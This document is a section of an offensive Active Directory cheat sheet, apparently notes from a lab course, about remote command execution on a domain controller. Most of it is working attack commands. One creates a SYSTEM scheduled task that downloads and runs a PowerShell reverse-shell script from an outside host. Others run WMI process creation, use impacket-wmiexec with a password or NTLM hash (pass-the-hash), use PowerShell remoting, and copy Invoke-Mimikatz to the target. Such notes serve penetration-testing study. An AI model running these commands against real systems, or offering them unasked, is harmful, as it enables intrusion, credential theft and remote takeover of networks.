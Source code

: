 ### Command execution with schtasks

_Requires ‘Host’ SPN_

To create a task:

```
# Mind the quotes. Use encoded commands if quoting becomes a pain.
schtasks /create /tn "shell" /ru "NT Authority\SYSTEM" /s dcorp-dc.dollarcorp.moneycorp.local /sc weekly /tr "Powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(''http://172.16.100.55/Invoke-PowerShellTcpRun.ps1''')'" 
```

To trigger it:

```
schtasks /RUN /TN "shell" /s dcorp-dc.dollarcorp.moneycorp.local 
```

### Command execution with WMI

_Requires ‘Host’ and ‘RPCSS’ SPNs_

#### From Windows

```
Invoke-WmiMethod win32_process -ComputerName dcorp-dc.dollarcorp.moneycorp.local -name create -argumentlist "powershell.exe -e $encodedCommand" 
```

#### From Linux

```
# with password
impacket-wmiexec dcorp/student355:password@172.16.4.101

# with hash
impacket-wmiexec dcorp/student355@172.16.4.101 -hashes :92F4AE6DCDAC7CF870B79F1758503D54 
```

### Command execution with PowerShell Remoting

_Requires ‘CIFS’, ‘HTTP’ and ‘WSMAN’ SPNs_

> This one is a bit tricky. A combination of the above SPNs may or may not work - also PowerShell may require the exact FQDN to be provided.

```
# Create credential to run as another user (if needed, not needed with PTT)
# Leave out -Credential $Cred in the below commands if not using
$SecPassword = ConvertTo-SecureString 'thePassword' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CORP\username', $SecPassword)

# Run a command remotely (can be used one-to-many!)
Invoke-Command -Credential $Cred -ComputerName $computer -ScriptBlock {whoami; hostname}

# Launch a session as another user (prompt for password)
Enter-PsSession -Credential $Cred -ComputerName $computer -Credential dcorp\Administrator

# Create a persistent session (will remember variables etc.), load a script into said session, and enter a remote session prompt
$sess = New-PsSession -Credential $Cred
Invoke-Command -Session $sess -FilePath c:\path\to\file.ps1
Enter-PsSession -Session $sess

# Copy files to or from an active PowerShell remoting session
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess2 -Destination "C:\Users\dbprodadmin\documents\" 
```
